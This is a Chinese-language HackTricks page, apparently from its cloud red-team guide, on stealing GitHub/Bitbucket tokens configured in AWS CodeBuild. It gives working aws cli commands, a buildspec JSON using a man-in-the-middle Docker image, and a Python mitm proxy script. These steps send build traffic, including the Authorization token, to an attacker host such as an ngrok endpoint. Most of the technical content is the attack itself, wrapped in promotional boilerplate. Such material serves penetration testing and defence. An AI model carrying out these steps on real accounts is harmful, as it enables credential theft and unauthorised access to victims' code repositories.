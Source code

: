 # AWS Codebuild - 令牌泄露

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 恢复Github/Bitbucket配置的令牌

首先，检查是否配置了任何可能泄露的源凭据：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果发现例如 Github 的身份验证设置在账户中，您可以通过让 Codebuild 使用特定的 Docker 镜像来运行项目的构建来**外泄**该**访问**（GH 令牌或 OAuth 令牌）。

为此，您可以**创建一个新的 Codebuild 项目**或更改现有项目的**环境**以设置**Docker 镜像**。

您可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基本的 Docker 镜像，将设置**环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许您拦截大部分在**`https_proxy`**和**`http_proxy`**中指定的主机的流量，并信任**`SSL_CERT_FILE`**中指定的 SSL 证书。

1. **创建并上传您自己的 Docker MitM 镜像**
   * 按照存储库的说明设置代理 IP 地址并设置 SSL 证书，然后**构建 Docker 镜像**。
   * **不要设置 `http_proxy`** 以免拦截对元数据端点的请求。
   * 您可以使用像 `ngrok tcp 4444` 这样的**`ngrok`**来将代理设置为您的主机。
   * 构建完成 Docker 镜像后，**将其上传到公共存储库**（Dockerhub、ECR...）。
2. **设置环境**
   * 创建一个**新的 Codebuild 项目**或**修改**现有项目的环境。
   * 设置项目使用**先前生成的 Docker 镜像**。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **在您的主机中设置 MitM 代理**

* 如**Github 存储库**中所示，您可以使用类似以下内容：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用的**mitmproxy版本为9.0.1**，据报道，使用版本10可能无法正常工作。
{% endhint %}

4. **运行构建并捕获凭据**

*   您可以在**Authorization**标头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

这也可以通过类似以下方式在aws cli中完成{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### 通过HTTP协议

{% hint style="success" %}
**这个漏洞在2023年2月20日那周某个时间点被AWS修复了（我想是在星期五）。所以攻击者无法再滥用它了 :)**
{% endhint %}

一个拥有**CodeBuild中提升权限的攻击者**可以泄露配置的Github/Bitbucket令牌，或者如果权限是通过OAuth配置的，可以泄露**用于访问代码的临时OAuth令牌**。

* 攻击者可以向CodeBuild项目添加环境变量**http\_proxy**和**https\_proxy**，指向他的机器（例如`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 然后，将github仓库的URL更改为使用HTTP而不是HTTPS，例如：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* 然后，在代理变量（http\_proxy和https\_proxy）指向的端口上运行来自[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)的基本示例。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击**构建项目**，**凭证**将以明文（base64编码）发送到mitm端口：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在攻击者将能够从自己的机器上使用令牌，列出所有特权并比直接使用CodeBuild服务更容易地滥用。
{% endhint %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
